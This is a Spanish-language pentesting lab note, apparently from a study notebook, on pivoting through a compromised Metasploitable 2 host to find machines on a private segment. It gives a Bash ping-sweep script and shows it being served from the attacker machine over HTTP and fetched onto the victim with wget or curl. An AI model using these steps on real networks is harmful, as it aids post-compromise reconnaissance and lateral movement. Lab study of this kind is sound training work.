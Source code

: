 Laboratorio:
Máquina Atacante (192.168.1.43)
Máquina Metasploitable 2 (192.168.1.42 / 10.10.10.4)
Máquina Metasploitable 3 (10.10.10.5)

![[Pasted image 20250702213106.png]]

Tenemos un Laboratorio donde todas las máquinas son Linux. Como atacante, una vez dentro de la máquina intermediaria (Metasploitable 2), debemos realizar un descubrimiento de hosts en el segmento de red privado de la máquina Metasploitable 2. Para ello, haremos uso de un script en Bash:

```
#!/bin/bash
# Ten en cuenta cambiar el segmento de red segun el caso
for i in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" &>/dev/null && echo "[+] Host 10.10.10.$i - active" &
done; wait
```

Ahora debemos trasladar este script `hostdiscovery.sh` a la máquina Metasploitable 2.
Podemos montar un **servicio http** con **python** en nuestra máquina atacante y acceder al recurso desde la máquina Mt2 con **curl** o **wget**.

```
 sudo python3 -m http.server
```

![[Pasted image 20250702212611.png]]

Ahora desde la máquina Mt2 descargaremos el recurso y le daremos privilegios de ejecución.

```
wget http://192.168.1.43:8000/hostdiscovery.sh
chmod x hostdiscovery.sh
```

O

```
curl "http://192.168.1.43:8000/hostdiscovery.sh" -o hostdiscovery.sh
chmod x hostdiscovery.sh
```

![[Pasted image 20250702213245.png]]
